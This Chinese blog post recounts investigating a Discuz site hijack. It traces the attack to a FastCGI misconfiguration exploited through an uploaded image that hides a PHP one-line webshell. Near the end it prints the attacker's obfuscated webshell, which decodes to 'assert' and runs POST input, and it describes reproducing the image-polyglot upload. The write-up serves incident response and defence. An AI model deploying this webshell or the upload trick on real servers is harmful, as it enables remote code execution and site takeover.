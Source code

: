 ```yaml
---
layout: post
title: 记处置一起因fastcgi代码执行漏洞引发的攻击事件
categories:
- 今日头条
tags:
---
```

				最近也不知道怎么回事，我们自己的网站没有被黑，反倒是认识的一些朋友的网站被黑，要么是报复性攻击要么就是为了实现自己的经济利益；比如挂赌博网站的马，恶意使得网站跳转到非法网站，真是多事之秋。

事件背景

一个跟我关系很不错的朋友，也是我的老乡，今天上午跟我说他的网站中有一个会员在QQ上联系他，威胁他不让解封网站账号就有不良后果，诸如说什么去工信部举报之类的。而他的网站是资源下载类网站，现在日IP近万，也有不错的收益，而且在国内只要是资源下载类网站或多或少都有些问题，比如有的资源可能涉及侵权之类的。他自己还是挺担心的，担心真的被举报，即便他网站不存在什么严重违法问题，但有时候多一事不如少一事，就像我的网站当初因为会员发布一篇关于微软的文章被发律师函但没有注意，结果域名被hlod了。

但是没想到，还没等到那个人上午的威胁到来，结果现实的威胁却人了。中午的时候他就跟我说网站被攻击了，访问网站后15s后跳转到某色情网站。而他一个以运营见长，技术是他短板的人，却很快找到根目录下的index.php文件开头被插入恶意跳转代码。很显然，事情没有这么简单，就算他把其中的恶意代码删除，攻击者还是可以继续攻击，因为根源压根就不在这个地方。

![](http://p1.pstatp.com/large/96c0008f78a8845b520)

而他的网站就是基于Discuz创建的，基本上就是Discuz本身的状态，也就是说就算站点存在漏洞也不是他创造了这样的漏洞。基于这个时间点，他非常怀疑该事件与上午那个威胁者有关，但一时也不知道如何从根本上处理该问题。

问题处理

我首先要他做一个基本的验证操作，就是比对网站web程序看下近期是否被篡改，结果得到的反馈是并没有。然后，他跟我说他的阿里云后台里边有提示网站受攻击，但对于他自己也不知道如何分辨，因为很多被提示的攻击其实对网站是不存在影响的，比如很多针对某些开源编辑器的攻击，但他的网站压根没有使用，这样的攻击再多也不会被攻破的，最多变成dos攻击了，呵呵。我问了他几个上面提示的细节，比如要他注意有chr方法的地方，但看了之后还是觉得不是该事件的问题。

然后我干脆问他要了阿里云的账号，处于对我的信任他毫不犹豫给我了，我进入阿里云后台，因为我之前就利用阿里云提供的安全监控工具快速定位攻击事件，这比自己另外去找效率高得多。结果在“弱点”（其实就是漏洞）这个提示项中发现连续好几个高危提示，都是“fastcgi 代码执行漏洞”。

![](http://p1.pstatp.com/large/9aa0000e7d84cf696e5)

那这是一个什么漏洞呢？据了解该漏洞一般不是web程序引起的，而一般是由于web服务器配置不当引起的，比如nginx、iis等；该漏洞会使得一些不安全的文件被当做可执行的文件执行。非常典型的就是在图片中植入攻击代码，然后上传该图片到服务器，再利用该漏洞执行图片中的攻击代码。下面的图片就是验证该漏洞的，在根目录下robots.txt是搜索引擎协议文件，显然是正常的，但是加上/x.php访问安全状态是不能够被访问的，但他这里可以直接被访问，这漏洞表现得一览无余。

![](http://p3.pstatp.com/large/9700008f838d305d449)

我于是要他给我一个有上传图片权限的网站账号给我来测试，说到这里；他又跟我补充了一个细节：那就是上午那个威胁他的人对应的账号，从注册开始除了传图片外啥都没做。到了这里我越发感觉问题就是在这个地方。

我在本地制作一个带有一句话php执行木马的图片，用cmd命令行合并一个jpg图片和一个写有一句话木马的php文件。

![](http://p3.pstatp.com/large/9aa0000e7d6e81cfe6b)

然后利用他给我的用户账户上传文件（其实他的网站任意注册用户都有上传图片权限），结果这张带有木马的图片顺利上传到网站服务器中；这张图片很明显是带有木马的，这不用再看了。这时候我要他提供一张攻击者账户上传的图片给我。结果是一张这样的图片：

![](http://p1.pstatp.com/large/9700008f831bd46cab9)

呵呵，你丫是表情包呢，结果他说那个人传的都是类似这种风格的，尼玛，我也是醉了。用16进制查看器打开该文件，结果几乎让我可以完全确定该攻击源于此了：

![](http://p3.pstatp.com/large/9aa0000e7dd85f63340)

可以非常明显得看到在结尾有一段非常明显的代码，而此代码之前应该才是正常图片的编码。这段代码如下：

 <?php $z = base64_decode('Y.X.N.z.ZXJ0');$z($_POST[666]);?>

到了这里真相就出来了，这是一个非常典型的一句话木马。

结语

该漏洞在阿里云官方有两种解决方案的（阿里云官方解决方案），除此之外我们可以升级web服务器版本至安全版本等等。实际上上面的过程仅此这个漏洞攻击者还是不能够实现攻击目标，比如如果不给他传图片也就不能在图片中插入代码并上传到服务器。所以攻与防总是一环扣一环的。不管对于攻击者还是防护者都是有较高要求的，对于攻击者而言，可以利用的破绽中缺少某个环节就是功亏一篑；而对于防护者而言，需要尽可能避免漏洞的出现，哪怕对于该漏洞本身来讲并不是什么高危漏洞，但依然可能被利用。

这里也不得不赞一下阿里云，我之所以赞它并不仅仅是因为上述过程中使用了它提供的安全监控工具。而是在这个过程中，其实我做了一个逆向的攻击重现，也就是重现一遍攻击过程（当然该过程相对攻击者攻击过程轻松许多，呵呵），在这个过程中实践了除该攻击流程本身之外的过程。比如直接把木马上传到服务器做基础攻击测试，这个地方就是我要赞阿里云的，木马文件刚上传，邮件马上就到来。

![](http://p1.pstatp.com/large/9aa0000e7de759eddb6)

虽然该测试木马是非常容易被识别的，但我要赞的是阿里云的这个通知速度，绝对杠杠的。这不是打广告，使用阿里云产品几年了，确实相对以前省了不少事情或者提高了不少事情的处理效率，比如我们这边文章所讲的。

最后想说的是，没有绝对的安全体系，要做的是最大可能避免不良事件的发生，最重要的是有防范于未然的安全意识！